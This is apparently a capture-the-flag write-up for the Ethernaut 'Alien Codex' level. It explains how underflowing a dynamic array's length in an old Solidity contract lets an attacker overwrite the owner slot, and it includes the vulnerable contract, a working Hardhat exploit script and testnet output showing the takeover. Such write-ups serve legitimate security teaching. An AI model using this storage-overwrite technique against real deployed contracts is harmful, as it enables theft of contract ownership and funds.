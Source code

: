 ```yaml
---
title: Ethernaut #19 Alien Codex
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Alien Codex challenge writeup
---
```


## Alien Codex

### Challenge

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

* Understanding how array storage works
* Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
* Using a very `underhanded` approach


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

### Background

This challenge is actually something I have suggested and discussed with some friends after a HAM radio lecture a few days ago :)

Arrays are allocated in two different ways. There are fixed-length arrays and dynamic-length arrays. Fixed-length arrays allocate space as if each element in the array was a separate variable. Dynamic-length arrays on the other hand, work in a very different way. Dynamic-length arrays store the length of the array in the slot given, and then use the `keccak` hash of that slot number to point to the location of the array. Then the array is accessed in a consecutive fashion. The problem arrises when one realizes that the length value is just a number stored in the `array.length` variable and if it can be manipulated, an attacker could extend it and make the array overlap other stuff in storage and then potentially access it by indexing into the array. Since solidity version `0.6.0` the `array.length` is now treated as read only by the compiler, however it is **NOT** a constant. Manipulating the slot using some other technique could still change its value.

### Attack

In order to attack this challenge, we first need to extend the length of the array. This can be achieved usign an integer underflow vulnerability. This can be achieved by simply calling the `retract` function before adding anything to the array. This will underflow the integer and go from `0x0000000000000000000000000000000000000000000000000000000000000000` to `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`. In order to call the `retract` function we also need to call the `make_contact` function just to bypass the modifier check. Finally we can calculate the offset of the array start to the first slot (slot 0) and replace the item at that index with the attackers address using the `revise` function.

We could consider clearing the `contact` variable and even fixing the array length, but since its not required we wont be bothering with this.

* Call the `make_contact` function to bypass the modifier check
* Call the `retract` function to underflow the `length` variable
* Calculate the array starting point using `keccak(uint256(0x01))`
* Calculate the offset at which the array would wrap around
* Call the `revise` function to replace the array location at the calculated offset with the attackers address

#### alien-codex-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    alienCodexAddress = "0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5";
    contract = await ethers.getContractAt("AlienCodex", alienCodexAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address : " + contract.address)
    console.log("Contract owner: " + await contract.owner())

    // calculate start of array
    arrayStart = ethers.utils.keccak256(ethers.utils.hexZeroPad(0x01, 32))

    // calculate owner offset (slot 0) from start of array
    offset = ethers.BigNumber.from('0x10000000000000000000000000000000000000000000000000000000000000000').sub(ethers.BigNumber.from(arrayStart))
    offsetHex = ethers.utils.hexZeroPad(offset, 32)

    // bypass modifier check
    tx = await contract.connect(account).make_contact()
    receipt = await tx.wait()

    // underflow array length to access full space
    tx = await contract.connect(account).retract()
    receipt = await tx.wait()

    // replace owner by writing address to array at calculated offset
    tx = await contract.connect(account).revise(offsetHex, ethers.utils.hexZeroPad(account.address, 32))
    receipt = await tx.wait()
    
    console.log("Contract owner: " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/alien-codex-solve.js --network rinkeby
Level address : 0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5
Contract owner: 0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272
Contract owner: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
